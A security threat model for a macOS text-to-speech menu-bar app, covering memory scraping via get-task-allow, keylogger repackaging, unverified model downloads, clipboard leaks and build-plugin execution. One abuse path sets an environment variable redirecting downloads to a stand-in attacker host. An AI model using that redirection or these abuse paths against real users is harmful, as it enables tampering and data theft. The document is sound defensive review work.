

# MLXRead — Threat Model

_Repo: `~/dev/mlxread` (branch: main). Prepared for AppSec review. Context confirmed with owner: **public distribution**, **high-sensitivity captured text**, scope = **runtime app + build/release pipeline**._

## Executive summary

MLXRead is a local, offline macOS menu-bar app that reads the user's current selection aloud with an on-device MLX TTS model. Its security story is unusually good on the *data* axis — selected text stays in memory, is never persisted, and is logged only as counts — but that strength is undercut by two things that matter specifically for **public distribution**: (1) the shipped `.app` is **not sandboxed, has hardened runtime disabled, and carries `get-task-allow=true`**, so any local process can read the memory of a program that both holds a global keyboard tap and buffers high-sensitivity text; and (2) model assets are fetched from mutable Hugging Face `main` refs **with no hash or signature verification**, making the model-acquisition path the app's main integrity/supply-chain exposure. The highest-value review targets are the entitlements/signing configuration (`project.yml`), the model download/validation path (`MLXRead/Models/ModelStore.swift`), the global event tap (`MLXRead/Hotkey/GlobalHotkeyService.swift`), and the clipboard-capture fallback (`MLXRead/Accessibility/ClipboardSelectionReader.swift`). There are **no remote listeners, no subprocess execution, and no dynamic code eval** in first-party code, which keeps classic RCE/injection surface near zero.

## Scope and assumptions

**In scope (runtime):**
- `MLXRead/` app target — hotkey, selection capture, speech pipeline, model store, UI, app lifecycle.
- `SystemVoiceProvider/` — the `ausp` speech-synthesis-provider app extension.
- Model-acquisition path via `swift-huggingface` (behavioral trust boundary, not the dependency's own code).

**In scope (build/release):**
- `project.yml` (xcodegen), `MLXRead.xcodeproj/.../Package.resolved`, `script/*.sh`, SPM dependency resolution and macro/plugin execution.

**Out of scope:**
- Internal implementation of third-party packages (mlx-swift, mlx-audio-swift, swift-huggingface, swift-transformers) beyond the trust boundary they present. Pins recorded in `docs/technical-decisions.md`.
- The security of Hugging Face and Apple infrastructure themselves.
- The MLX model weights' inference correctness / output quality (not a security property here).

**Explicit assumptions:**
- A1. Distributed publicly as a signed `.app` (today: Apple **Development**-signed, non-notarized per `script/package.sh`; a public release would move to Developer ID + notarization).
- A2. Captured selections and clipboard snapshots may contain secrets, legal, or financial content (owner-confirmed "high").
- A3. macOS 14+ on Apple Silicon; the app runs with the invoking user's privileges and (once granted) Accessibility trust.
- A4. The primary adversary is a **local, unprivileged process** on the same machine and a **network/supply-chain adversary** on the model-download path — not a remote attacker against a listening port (there is none).
- A5. Users grant Accessibility because the app cannot function without it; this is a deliberate, high-value trust grant.

**Open questions that would change ranking:**
- Q1. Will the public build ship **notarized with hardened runtime + App Sandbox**? (Directly sets whether TM-001/TM-002 stay high.)
- Q2. Is there any planned **auto-update mechanism**? (None found; an insecure updater would introduce a new high-severity boundary.)
- Q3. Will model downloads move to **pinned commit SHAs + integrity checks**, or stay on `main`? (Sets TM-004.)

## System model

### Primary components
- **Menu-bar app shell** — `MLXRead/App/` (`MLXReadApp.swift`, `AppDelegate.swift`, `AppState.swift`). Composition root; owns services; installs memory-pressure and lifecycle handlers.
- **Global hotkey service** — `MLXRead/Hotkey/GlobalHotkeyService.swift`. A `CGEventTap` on `.cgSessionEventTap` (active/`.defaultTap`) that sees all key-down events, suppresses only ⌥⎋.
- **Selection capture** — `MLXRead/Accessibility/` : `AXSelectedTextReader.swift` (Accessibility API), `ClipboardSelectionReader.swift` (synthetic ⌘C fallback), `PasteboardSnapshot.swift` (changeCount-guarded restore).
- **Speech pipeline** — `MLXRead/Speech/` : `SpeechCoordinator.swift` (state machine, generation UUIDs), `NativeMLXSpeechEngine.swift` (MLX inference), `TextNormalizer.swift`/`TextChunker.swift`.
- **Audio playback** — `MLXRead/Audio/StreamingAudioPlayer.swift` (AVAudioEngine).
- **Model store** — `MLXRead/Models/ModelStore.swift`. Download (via `swift-huggingface`), validation, disk management; sets `HF_HUB_CACHE`.
- **System voice provider extension** — `SystemVoiceProvider/` : sandboxed `ausp` Audio Unit exposing an `AVSpeechSynthesisProviderVoice`.
- **Build/release** — `project.yml`, `Package.resolved`, `script/*.sh`.

### Data flows and trust boundaries
- **Foreground app (untrusted content) → AX reader**: selected text (high-sensitivity) crosses via the Accessibility API (IPC brokered by macOS). Guarantees: requires Accessibility trust; 0.5 s AX messaging timeout. Validation: type/emptiness checks only — content is opaque text. Evidence: `AXSelectedTextReader.swift:36` (`captureNow`), `:57` (`kAXSelectedTextAttribute`).
- **Foreground app → clipboard fallback → general pasteboard → app**: synthetic ⌘C places the selection on `NSPasteboard.general` (world-readable by clipboard managers for the window between copy and restore), then app reads and restores prior contents only if `changeCount` is unchanged. Evidence: `ClipboardSelectionReader.swift:80-87` (synth ⌘C), `PasteboardSnapshot.swift:34-47` (guarded restore).
- **Keyboard (all apps) → event tap**: every key-down transits the tap callback; only ⌥⎋ is consumed, the rest passed through. Capability boundary: the tap *can* observe all keystrokes even though it acts on one. Evidence: `GlobalHotkeyService.swift:45-52`, `:105-124`.
- **App → Hugging Face (`https://huggingface.co`) → local model cache**: model weights + G2P assets (safetensors/JSON) over TLS. Guarantees: HTTPS default, ATS on (hardened runtime aside, no ATS opt-out in Info.plist). Validation gap: revision `"main"` (mutable), **no content hash/signature check**. Evidence: `ModelStore.swift:87-113` (`download`), mlx-audio `ModelUtils.swift:127` (`revision: "main"`), `ModelStore.swift:60-77` (`validate` = presence/JSON-parse only).
- **App → speech provider extension**: the system speech daemon brokers `AVSpeechSynthesisProviderRequest` (SSML) into the sandboxed appex. Guarantees: appex is App-Sandboxed (`SystemVoiceProvider.entitlements`), offline render. Evidence: `project.yml:81-84`, `SystemVoiceProvider/MLXReadProviderAudioUnit.swift`.
- **Config/env → app**: `setenv("HF_HUB_CACHE", …)` at startup; `swift-huggingface` also honors `HF_ENDPOINT`/`HF_TOKEN` from the environment. Boundary: process env is operator/local-attacker controlled. Evidence: `ModelStore.swift:24`.
- **Build inputs → signed artifact**: `project.yml` + `Package.resolved` (17 pinned revisions) → xcodebuild with `-skipPackagePluginValidation -skipMacroValidation` → `dist/MLXRead.app`. Boundary: SPM build plugins/macros execute at build time. Evidence: `script/package.sh:22-23`, `Package.resolved`.

#### Diagram

## Assets and security objectives

| Asset | Why it matters | Security objective (C/I/A) |
|---|---|---|
| Selected text in memory | May contain passwords, keys, legal/financial content (A2); the app's core data | Confidentiality |
| Clipboard contents (user's own) | Fallback transits/restores it; corruption or leakage harms the user | Confidentiality, Integrity |
| Keystroke stream visible to the tap | The tap sees all keys; abuse = keylogging | Confidentiality |
| Model cache on disk | Drives inference; a tampered model is code/behavior the app trusts | Integrity |
| Accessibility trust grant | The master capability enabling capture + tap | Integrity (of who holds it) |
| Signed app artifact | Publicly distributed; users trust its provenance | Integrity, Authenticity |
| Build pins (`Package.resolved`, model pins) | Determine what code/weights ship | Integrity |
| App availability (reader works when invoked) | Utility value; low blast radius if down | Availability (low) |

## Attacker model

### Capabilities
- **Local unprivileged process** running as the same user: can enumerate processes, attempt to attach to task ports, read `NSPasteboard.general`, set environment variables for child/relaunched processes, and read the model cache directory.
- **Network/supply-chain adversary** on the model path: controls or compromises a Hugging Face repo (`mlx-community/*`, `beshkenadze/*`) or performs a TLS-terminating MITM with a trusted cert, delivering altered weights/config/G2P assets from a mutable `main` ref.
- **Malicious dependency author** in the build tier: ships a transitive SPM package containing a build plugin or macro.
- **Shoulder/side-channel adversary**: can observe audio output (the app speaks selected text aloud — an inherent, accepted property).

### Non-capabilities
- **No remote network attacker** against a listening service — the app exposes **no ports, RPC, or IPC listeners** (grep for listeners/URLSession servers is empty; only outbound HTTPS on download).
- Cannot achieve code execution via model weights alone: **safetensors is a data format** (no pickle/arbitrary-code deserialization), so a tampered model degrades to integrity/behavior manipulation, not direct RCE (downgrades TM-004).
- Cannot bypass the changeCount guard to silently corrupt the clipboard when the user/another app has written after capture (`PasteboardSnapshot.swift:34`).
- Cannot read selected text from logs — logging is counts/`<private>` only (`AppLogger.swift`, `SpeechCoordinator.swift` state logs use `.public` only on state names).
- Root/kernel-level local attackers are out of scope (they already own the machine).

## Entry points and attack surfaces

| Surface | How reached | Trust boundary | Notes | Evidence |
|---|---|---|---|---|
| Global event tap | Any keystroke system-wide | Keyboard → app | Active tap sees all key-downs; acts only on ⌥⎋ | `GlobalHotkeyService.swift:45-52,105-124` |
| AX selection read | ⌥⎋ / menu → focused element | Foreground app → app | Reads arbitrary foreground selection incl. secure contexts if exposed | `AXSelectedTextReader.swift:36,57` |
| Clipboard fallback | ⌥⎋ when AX yields nothing | Foreground app → pasteboard → app | Selection transits world-readable pasteboard briefly | `ClipboardSelectionReader.swift:80-87` |
| Model download | Settings → Models → Download | App → Hugging Face | Mutable `main`, no integrity verification | `ModelStore.swift:87-113`; `ModelUtils.swift:127` |
| Model cache load | Any read after download | Disk → engine | `validate()` checks presence/JSON only, not authenticity | `ModelStore.swift:60-77` |
| Env-driven config | Process env at launch | Env → app | `HF_ENDPOINT`/`HF_TOKEN`/`HF_HUB_CACHE` influence fetch/cache | `ModelStore.swift:24` |
| Speech provider request | System TTS → appex (SSML) | Daemon → sandboxed appex | Sandboxed, offline render; placeholder synthesis today | `MLXReadProviderAudioUnit.swift` |
| Task port (memory) | Local process attaches | Local process → app | `get-task-allow=true`, no hardened runtime/sandbox in build | `dist/MLXRead.app` entitlements; `project.yml:22` |
| Build plugins/macros | `xcodebuild` during release | Dependency → build host | Validation prompts skipped in scripts | `script/package.sh:22-23` |

## Top abuse paths

1. **Memory scrape of live selection.** Local unprivileged process → attaches to MLXRead's task port (allowed by `get-task-allow=true`, no hardened runtime) → reads the in-memory selection buffer / MLX tensors during a read → exfiltrates high-sensitivity text. Impact: confidentiality breach of the exact asset the app is designed to protect.
2. **Passive keylogging via the trust grant.** An attacker who can modify or repackage the app (unsigned/altered build a user is tricked into running) → widens the existing `.cgSessionEventTap` callback to record all key-downs (the tap already receives them) → persists keystrokes. Impact: full keylogger under a benign-looking utility. (Prereq: artifact integrity failure — ties to TM-002.)
3. **Malicious model weight substitution.** Supply-chain attacker compromises `mlx-community/Kokoro-82M-bf16` or a `beshkenadze/*` G2P repo on `main` → user downloads → `validate()` accepts it (presence/JSON only) → altered model runs in-process. Impact: integrity of synthesis + a foothold for any future weight-parsing bug; contained by safetensors being data-only.
4. **Endpoint redirection via environment.** Local attacker sets `HF_ENDPOINT=http://attacker.example` (or a rogue HTTPS host) in the environment MLXRead inherits → download is redirected. ATS blocks cleartext by default, so this needs a rogue TLS host or an `HF_TOKEN` exfil angle. Impact: model tampering / token theft if a token is present.
5. **Clipboard exfiltration timing.** A clipboard-manager or local process polling `NSPasteboard.general` reads the selection during the brief window it is on the pasteboard in the fallback path. Impact: confidentiality leak of selections in apps lacking AX text (fallback-only apps).
6. **Build-time code execution via dependency.** A transitive SPM package ships a malicious build plugin/macro → executes on the build/release host during `xcodebuild` (validation prompts skipped) → tampers the artifact or steals signing material. Impact: compromised public release. (Contained by `Package.resolved` pinning to specific revisions.)
7. **Denial via event-tap starvation.** Not attacker-driven remotely, but a wedged main queue could delay the tap; macOS auto-disables slow taps. Impact: the ⌥⎋ shortcut and possibly other input handling degrade until re-enabled (already handled at `GlobalHotkeyService` re-enable path). Low.

## Threat model table

| Threat ID | Threat source | Prerequisites | Threat action | Impact | Impacted assets | Existing controls (evidence) | Gaps | Recommended mitigations | Detection ideas | Likelihood | Impact severity | Priority |
|---|---|---|---|---|---|---|---|---|---|---|---|---|
| TM-001 | Local unprivileged process | App running a read; attacker code runs as same user | Attach to task port and scrape in-memory selection/tensors | Exfiltration of high-sensitivity text | Selected text in memory | None in app; relies on OS process isolation only | `get-task-allow=true`, `ENABLE_HARDENED_RUNTIME: NO`, no App Sandbox in shipped build (`project.yml:22`; `dist/MLXRead.app` entitlements) | Ship Developer ID + **hardened runtime** (strips `get-task-allow`) + **App Sandbox**; notarize; zero the selection buffer after synthesis | EndpointSecurity `ES_EVENT_TYPE_...TASK` / debugger-attach alerts on the app | Medium | High | **high** |
| TM-002 | Attacker distributing a tampered build | User runs an unsigned/altered copy | Repackage app to widen the existing keyboard tap into a keylogger | Full keystroke capture under a trusted-looking app | Keystroke stream, Accessibility grant | Development-signed today; not notarized (`script/package.sh`) | Non-notarized dev build trains users to bypass Gatekeeper; no update-integrity story | Notarize; document verification; add a signed auto-update channel or none; consider tamper self-check | Gatekeeper/notarization telemetry; user-facing signature display | Medium | High | **high** |
| TM-003 | Supply-chain (HF repo) or TLS MITM | Compromise a model/G2P repo or a trusted-cert MITM | Serve altered weights/config from mutable `main` | Model integrity compromise; latent parser-exploit foothold | Model cache, synthesis integrity | HTTPS + ATS default; SPM code pinned; presence/JSON validation (`ModelStore.swift:60-77`) | Revision `"main"` (`ModelUtils.swift:127`); **no hash/signature verification** of downloaded files | Pin model **commit SHAs**; verify SHA-256 of each file against a shipped manifest before load; prefer safetensors-only, reject pickle | Log/verify downloaded file digests; alert on mismatch | Low | Medium | **medium** |
| TM-004 | Local attacker via environment | Ability to set env for MLXRead's process | Set `HF_ENDPOINT`/`HF_TOKEN` to redirect fetch or capture token | Model tampering; token theft if token present | Model cache, any HF token | ATS blocks cleartext; app sets no token by default | App inherits `HF_ENDPOINT`/`HF_TOKEN` from env (`swift-huggingface`); `HF_HUB_CACHE` set unconditionally (`ModelStore.swift:24`) | Pin endpoint to `huggingface.co` in-app (ignore `HF_ENDPOINT`); never read tokens from ambient env for a no-account app | Log resolved endpoint at download; assert it equals the expected host | Low | Medium | **medium** |
| TM-005 | Clipboard-observing local process | AX fails so fallback runs; attacker polls pasteboard | Read selection during the copy→restore window | Confidentiality leak of fallback-path selections | Selected text, clipboard | changeCount-guarded restore; fallback is opt-in default-on (`PasteboardSnapshot.swift:34`) | Selection is unavoidably on `NSPasteboard.general` momentarily; visible to clipboard managers | Mark items `org.nspasteboard.ConcealedType`/transient; minimize window; make fallback opt-in for sensitive apps | N/A (OS-level pasteboard access is broad) | Low | Medium | **low** |
| TM-006 | Malicious transitive dependency | A pinned package pulls a build plugin/macro | Execute code on build/release host at build time | Compromised artifact / signing material | Signed artifact, build pins | `Package.resolved` pins 17 revisions; exact pin of mlx-audio-swift | Scripts pass `-skipPackagePluginValidation -skipMacroValidation` (`script/package.sh:22-23`) | Build/release on an isolated runner; review new plugins/macros; drop the skip flags in release builds or vet plugins explicitly | CI diff on `Package.resolved`; alert on new plugin/macro targets | Low | High | **medium** |
| TM-007 | Local process | App running | Cause event-tap disable/starvation | ⌥⎋ (and input handling) degradation | App availability | Auto re-enable on `tapDisabledByTimeout/UserInput` (`GlobalHotkeyService.swift`) | Main-queue stalls could delay dispatch | Keep tap handler O(1) (already); watchdog to reinstall tap | Log tap-disable events already emitted | Low | Low | **low** |

## Criticality calibration

_For THIS repo: an offline, no-listener desktop utility whose crown-jewel asset is transient high-sensitivity text, holding a keylogging-capable OS grant, distributed publicly._

- **Critical** — Any path yielding silent, remote-triggered exfiltration of selected text or keystrokes to an off-device attacker, or code execution in the shipped app from attacker-controlled input. _Examples: a remote-triggerable memory disclosure (none exists today); a model-load path that executes attacker code (blocked by safetensors-data-only); a network listener leaking captures (none)._
- **High** — Local exfiltration of the core assets enabled by the app's own configuration, or artifact-integrity failures that convert the app into a keylogger. _Examples: TM-001 (task-port memory scrape via `get-task-allow`), TM-002 (tampered/notarization-less distribution → keylogger)._
- **Medium** — Integrity/supply-chain compromises requiring attacker control of the model source or build tier, contained by data-only formats or pinning. _Examples: TM-003 (unverified model on `main`), TM-004 (env endpoint/token redirection), TM-006 (build-plugin execution)._
- **Low** — Narrow-window confidentiality leaks with broad OS-level preconditions, or easily-recovered availability issues. _Examples: TM-005 (pasteboard timing window), TM-007 (tap starvation with auto-recovery)._

## Focus paths for security review

| Path | Why it matters | Related Threat IDs |
|---|---|---|
| `project.yml` | Entitlements/signing config; `ENABLE_HARDENED_RUNTIME: NO`, no App Sandbox, sets `get-task-allow` in shipped build | TM-001, TM-002 |
| `script/package.sh` | Release signing step; non-notarized, skips plugin/macro validation | TM-002, TM-006 |
| `MLXRead/Models/ModelStore.swift` | Download + `validate()`; mutable ref, no integrity check; sets `HF_HUB_CACHE` | TM-003, TM-004 |
| `MLXRead/Hotkey/GlobalHotkeyService.swift` | Active tap sees all keystrokes; keylogging capability boundary | TM-001, TM-002, TM-007 |
| `MLXRead/Accessibility/ClipboardSelectionReader.swift` | Synthetic ⌘C places selection on the general pasteboard | TM-005 |
| `MLXRead/Accessibility/PasteboardSnapshot.swift` | changeCount-guarded restore; correctness protects user clipboard | TM-005 |
| `MLXRead/Speech/NativeMLXSpeechEngine.swift` | Loads model cache into process; where a tampered model executes | TM-003 |
| `MLXRead.xcodeproj/.../Package.resolved` | The dependency pin set that defines what ships | TM-006 |
| `SystemVoiceProvider/SystemVoiceProvider.entitlements` | The one sandboxed component; confirm sandbox stays enabled as MLX is wired in | TM-003 |

## Quality check

- **Entry points covered:** event tap, AX read, clipboard fallback, model download, cache load, env config, provider request, task port, build plugins — all appear in the threat table or abuse paths. ✔
- **Each trust boundary represented:** keyboard→app (TM-001/002/007), foreground→app (TM-001/003/005), app→HF (TM-003/004), env→app (TM-004), disk→engine (TM-003), build→artifact (TM-006), daemon→appex (noted; sandboxed, no distinct threat beyond TM-003). ✔
- **Runtime vs CI/dev separated:** runtime threats TM-001–005/007; build-tier isolated as TM-006 with its own boundary. ✔
- **User clarifications reflected:** public distribution (raises TM-001/TM-002 to high), high data sensitivity (drives asset weighting), build tier in scope (TM-006). ✔
- **Assumptions & open questions explicit:** A1–A5 and Q1–Q3 stated; conditional items (notarization, auto-update, SHA pinning) flagged. ✔
- **Non-capabilities stated to avoid inflation:** no remote listener, safetensors data-only, no subprocess/eval, log redaction. ✔
